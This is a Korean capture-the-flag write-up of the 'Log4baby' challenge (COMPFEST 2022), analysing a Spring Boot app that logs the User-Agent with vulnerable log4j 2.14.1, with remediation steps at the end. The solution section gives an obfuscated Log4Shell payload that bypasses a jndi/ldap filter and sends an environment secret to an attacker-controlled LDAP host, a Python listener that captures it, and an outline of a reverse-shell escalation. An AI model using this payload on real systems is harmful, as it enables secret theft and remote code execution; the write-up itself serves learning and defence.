

# Log4baby

: 
구분: 공통 문제
난이도: Easy
분야: Web
상태: 작성 완료
생성일: 2026년 8월 18일 오후 1:29
수정일: 2026년 9월 3일 오후 11:10

# 0. 문제 정보

| 항목 | 내용 |
| --- | --- |
| 문제명 | Log4baby |
| 원본 대회 | COMPFEST 2022 |
| 분야 | Web |
| 난이도 | 초급~중급 · 약 3/5 |
| 접속 주소 | `http://localhost:1338` |
| 플래그 형식 | `FLAG{...}` |

### 문제 설명

Log4baby는 사용자의 HTTP 요청 정보를 서버 로그에 기록하는 Spring Boot 기반 서비스입니다.

애플리케이션이 사용하는 로깅 라이브러리의 버전과 입력 필터링 방식을 분석하고, 실제 취약한 라이브러리 동작을 이용하여 플래그를 획득하는 것이 목표입니다.

# 1. 문제 요약

- Utils, Log4babyApplication, HomeController로 자바파일이 구성됨
- User-Agent를 자바 어플리케이션에서 log4j라이브러리를 사용해 로깅함
- pom.xml에서 log4j버전 확인 log4shell 확인

---

# 2. 문제 분석

- 코드
    
    ```python
    Utils
    package id.compfest.ctf.log4baby;
    
    import javax.servlet.http.HttpServletRequest;
    
    public class Utils {
        public String getBrowserName(HttpServletRequest request) {
            String ua = request.getHeader("User-Agent");
            return ua == null ? "unknown" : ua;
        }
    }
    ------------------------------
    Log4babyApplication
    package id.compfest.ctf.log4baby;
    
    import org.springframework.boot.SpringApplication;
    import org.springframework.boot.autoconfigure.SpringBootApplication;
    
    @SpringBootApplication
    public class Log4babyApplication {
        public static void main(String[] args) { SpringApplication.run(Log4babyApplication.class, args); }
    }
    ----------------------------------
    package id.compfest.ctf.log4baby;
    
    import org.springframework.stereotype.Controller;
    import org.springframework.web.bind.annotation.GetMapping;
    
    import java.util.regex.Pattern;
    
    import javax.servlet.http.HttpServletRequest;
    
    // log4j-core v2.14.1
    import org.apache.logging.log4j.LogManager;
    import org.apache.logging.log4j.Logger;
    
    @Controller
    public class HomeController {
        private static final Logger LOG = LogManager.getLogger(HomeController.class);
        private static final String FLAG = System.getenv("SECRET");
        private static Utils utils = new Utils();
    
        @GetMapping
        public String home(HttpServletRequest request) {
            String browserName = utils.getBrowserName(request);
            if(browserName.equals(FLAG))
                return "win";
    
            if(Pattern.compile("jndi|ldap[s]?").matcher(browserName).find()) {
                LOG.warn("Someone is trying to do naughty things!");
                return "angry";
            } else {
                LOG.info("A visit using: '" + browserName + "'");
            }
            return "index";
        }
    }
    
    ```
    

Maven은 자바(Java) 기반 프로젝트에서 사용하는 대표적인 빌드 자동화 및 의존성 관리 도구



CVE- 분석

Log4j가 공격자가 입력한 특수 문자열을 명령처럼 해석해 외부 자원에 접근하면서 원격 코드 실행까지 가능했던 취약점

```python
사용자 입력
   ↓
Log4j가 입력을 로그로 기록
   ↓
${jndi:...} 표현식을 해석
   ↓
외부 서버에 JNDI 요청
   ↓
악성 동작 / 원격 코드 실행 가능
```


Log4Shell을 이해하려면 JNDI와 LDAP을 간단하게 알아둘 필요가 있다.

### [**JNDI**](https://yt5246.tistory.com/139#JNDI-1-3)

JNDI(Java Naming and Directory Interface)는 Java 애플리케이션에서 외부 Naming/Directory 서비스의 객체나 데이터를 조회하기 위한 인터페이스다.

예를 들어 다음과 같은 형태로 외부 리소스를 참조할 수 있다.

```cpp
ldap://server/resource
```

Log4j에서는 Lookup 기능과 JNDI가 결합되면서 다음과 같은 표현식을 처리할 수 있었다.

```groovy
${jndi:ldap://server/resource}
```

구조를 나눠보면 다음과 같다.

```bash
${                     }
  jndi
    :
    ldap
       :
       //server/resource
```

jndi는 JNDI Lookup을 의미하고 ldap은 외부 서버에 접근할 때 사용할 프로토콜이다.

따라서 취약한 Log4j가 이 값을 처리하면

```groovy
${jndi:ldap://192.168.0.10:8888/test}
```

Log4j가 해당 문자열을 그대로 출력하는 것이 아니라 LDAP 서버로 연결을 시도하게 된다.

---

# 3. 풀이과정

```python
${${lower:j}ndi:${lower:l}dap://:8888/${env:SECRET}}
```

```python
import socket
import re

HOST = "0.0.0.0"
PORT = 8888
OUTPUT = "log.txt"

# 핸드쉐이크
# LDAP BindResponse Success 패킷 (MessageID: 1, Result: Success)
# 30 0c 02 01 01 61 07 0a 01 00 04 00 04 00
BIND_RESPONSE = bytes.fromhex("300c02010161070a010004000400")

with socket.socket(socket.AF_INET, socket.SOCK_STREAM) as server:
    server.setsockopt(socket.SOL_SOCKET, socket.SO_REUSEADDR, 1)
    server.bind((HOST, PORT))
    server.listen(1)

    print(f"[+] Listening on {HOST}:{PORT}")

    client, address = server.accept()
    print(f"[+] Connection from {address[0]}:{address[1]}")

    with client, open(OUTPUT, "wb") as f:
        # 1. 초기 BindRequest 수신 (14바이트)
        bind_request = client.recv(8192)
        if bind_request:
            print(f"[+] Received BindRequest: {len(bind_request)} bytes")
            f.write(bind_request)

            # 2. LDAP 성공 응답(BindResponse) 전송
            client.sendall(BIND_RESPONSE)
            print("[+] Sent BindResponse (Success)")

            # 3. 플래그가 포함된 SearchRequest 수신
            search_request = client.recv(8192)
            if search_request:
                print(f"[+] Received SearchRequest: {len(search_request)} bytes")
                f.write(search_request)

                # 4. 수신된 바이너리에서 문자열 파싱 및 플래그 출력
                decoded_data = search_request.decode("latin-1", errors="ignore")
                print(f"[+] Raw Data: {decoded_data}")

                flag_match = re.search(r"FLAG\{.*?\}", decoded_data)
                if flag_match:
                    print(f"[+] Found Flag: {flag_match.group(0)}")

print(f"[+] Saved to {OUTPUT}")
```

[log.txt](log.txt)


---

## 4. RCE

패킷 분석 → ldap를 통해 외부 클래스 가져오기→ Exploit 클래스 전송 → ncat으로 리버스쉘 

---

# 5. 보안조치

1. 보안업데이트
- Log4j 2.17.1이상으로 업데이트(Java 8환경 필요)
•Java 7 : Log4j 2.12.4
•Java 6 : Log4j 2.3.2
2. Log4j 2.10.0이상인 경우 아래 완화조치를 사용가능
- 시스템 속성 추가 : -Dlog4j2.formatMsgNoLookups=true
•Java 실행 계정의 환경 변수 혹은 시스템 변수에 LOG4J_FORMAT_MSG_NO_LOOKUPS=true 설정
3. Log4j 2.7.0이상인 경우 아래 완화조치를 사용가능
- log4j 설정(log4j.xml 등)에 PatternLayout 속성에 있는 %m부분을 %m{nolookups}으로 변환
•Log4j 2.16.0이상을 사용하는 경우 %m을 사용해도 자동으로 nolookups로 처리
4. Log4j가 위의 버전보다 낮은 경우
- JndiLookup와 JndiManager클래스를 읽지 못하도록 조치 필요
•Zip –q –d log4j-core-*.jar org/apache/logging/log4j/core/lookup/JndiLookup.class
5. Logback등 다른 로깅 모듈로 교체
- spring-boot-starter-logging 패키지를 변형없이 그대로 사용하면 Log4j 취약점에 영향을 받지 않을 수 있으나, 다른 패키지가 log4j-core에 의존하고 있을 가능성이 있으므로 실제 포함 여부를 의존성 트리 구조(dependency hierarchy)확인 필요

---

# 6. 기록

[https://www.intigriti.com/researchers/blog/hacking-tools/exploiting-log4shell-log4j](https://www.intigriti.com/researchers/blog/hacking-tools/exploiting-log4shell-log4j)\

[https://www.igloo.co.kr/security-information/apache-log4j-취약점-분석-및-대응방안/](https://www.igloo.co.kr/security-information/apache-log4j-%EC%B7%A8%EC%95%BD%EC%A0%90-%EB%B6%84%EC%84%9D-%EB%B0%8F-%EB%8C%80%EC%9D%91%EB%B0%A9%EC%95%88/)